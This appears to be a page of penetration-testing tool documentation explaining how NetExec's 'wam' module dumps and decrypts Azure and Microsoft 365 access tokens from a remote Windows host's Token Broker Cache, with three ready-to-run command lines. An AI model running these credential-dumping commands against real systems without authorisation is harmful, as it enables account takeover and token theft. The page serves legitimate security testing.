 ```yaml
---
description: Dump access token for Azure and Microsoft 365 from Token Broker Cache.
---
```


# 🆕 Dump Token Broker Cache

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Microsoft 365 and Azure applications on desktop will store access tokens to the Token Broker Cache. These are stored with user DPAPI. You can use the `wam` module in order to decrypt them. More info here [https://blog.xpnsec.com/wam-bam/](https://blog.xpnsec.com/wam-bam/)

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M wam
nxc smb $TARGET -u $USER -p $PASSWORD -M wam --mkfile masterkeys.txt
nxc smb $TARGET -u $USER -p $PASSWORD -M wam --pvk domain_backup_key.pvk
```

{% embed url="https://blog.xpnsec.com/wam-bam/" %}
